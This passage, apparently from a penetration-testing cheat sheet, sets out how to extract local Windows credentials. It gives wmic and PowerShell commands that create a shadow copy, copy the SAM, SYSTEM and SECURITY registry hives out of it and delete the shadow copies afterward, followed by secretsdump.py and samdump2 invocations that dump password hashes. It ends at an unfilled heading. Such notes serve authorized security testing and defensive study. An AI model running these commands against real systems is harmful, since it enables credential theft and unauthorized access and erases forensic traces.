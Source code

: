 ```bash
# Either commands create the shadow copy volume.
wmic shadowcopy call create Volume='C:\'
powershell.exe -Command (gwmi -List win32_shadowcopy).Create('C:\', 'ClientAccessible')

# Lists the shadow copy volume configured in order to retrieve the created shadow copy ID.
wmic shadowcopy
Get-WmiObject Win32_ShadowCopy | ForEach-Object { $_ }

cmd.exe /c "copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<ID>\Windows\System32\config\SAM <EXPORTED_SAM>"
cmd.exe /c "copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<ID>\Windows\System32\config\SYSTEM <EXPORTED_SYSTEM>"
cmd.exe /c "copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<ID>\Windows\System32\config\SECURITY <EXPORTED_SECURITY>"

# Will delete all instances of shadowcopy volumes.
wmic delete

# Deletes the specified shadow copy volume.
Get-WmiObject Win32_ShadowCopy | ForEach-Object { If ($_.ID -like "<GUID>") { $_.Delete() }}

# Alternatively will prompt for confirmation before deleting a shadow copy volume but require to be started through an interactive command prompt.
wmic
wmic:root\cli> shadowcopy delete
```

###### Credentials extraction from the registry hives

The `Impacket`'s `secretsdump.py` Python script can be used to extract the
credentials from the `HKLM\SAM` and `HKLM\SECURITY` hives. `secretsdump.py`
supports the new encryption scheme introduced in the `Windows 10 Anniversary
update`.

```bash
secretsdump.py -sam <SAM> -system <SYSTEM> [-security <SECURITY>] LOCAL
```

*Deprecated*

The Linux tool `samdump2` can be used to extract the credentials from the `SAM`
hive on a Linux system:

```bash
samdump2 <SYSTEM_FILE> <SAM_FILE>
```

The `Windows 10 Anniversary update`, introduced, in modern Windows operating
systems, a new encryption scheme, based on `AES`, for the `SAM` database.
`samdump2` has not been updated and will return the
`31d6cfe0d16ae931b73c59d7e0c089c0` hash (blank password or account disabled)
for all local users.

###### Direct local accounts and LSA Secrets extraction through Windows API calls
